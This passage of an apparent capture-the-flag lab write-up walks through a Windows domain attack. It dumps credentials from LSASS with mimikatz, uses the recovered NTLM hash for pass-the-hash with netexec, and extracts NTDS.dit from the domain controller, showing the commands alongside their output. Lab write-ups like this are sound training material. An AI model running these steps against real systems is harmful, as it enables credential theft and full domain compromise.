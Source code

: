 ### Mimikatz LSASS Dumping

#### Tool Transfer
```bash
# Copy mimikatz to attack host
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
# Transfer via RDP shared folder
```

#### Memory Credential Extraction
```cmd
# Run from elevated command prompt
C:\Users\bdavid\Desktop\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# Key finding: NTLM hash for user 'stom'
Authentication Id : 0 ; 265194 (00000000:00040bea)
Session           : RemoteInteractive from 2
User Name         : stom
Domain            : NEXURA
        msv :
         [00000003] Primary
         * Username : stom
         * Domain   : NEXURA
         * NTLM     : 21ea958524cfd9a7791737f8d2f764fa
```

---

## 👑 Phase 8: Domain Compromise

### Pass-the-Hash Attack
```bash
# Test extracted NTLM hash against domain targets
netexec smb hosts -u stom -H 21ea958524cfd9a7791737f8d2f764fa

# Results:
SMB         172.16.119.10   445    FILE01           [+] nexura.htb\stom:21ea958524cfd9a7791737f8d2f764fa (Pwn3d!)
SMB         172.16.119.11   445    DC01             [+] nexura.htb\stom:21ea958524cfd9a7791737f8d2f764fa (Pwn3d!)
```

### NTDS.dit Extraction
```bash
# Extract domain controller database
netexec smb 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa --ntds --user Administrator

# Results:
SMB         172.16.119.11   445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.119.11   445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:{ADMINISTRATOR_HASH}:::
```

---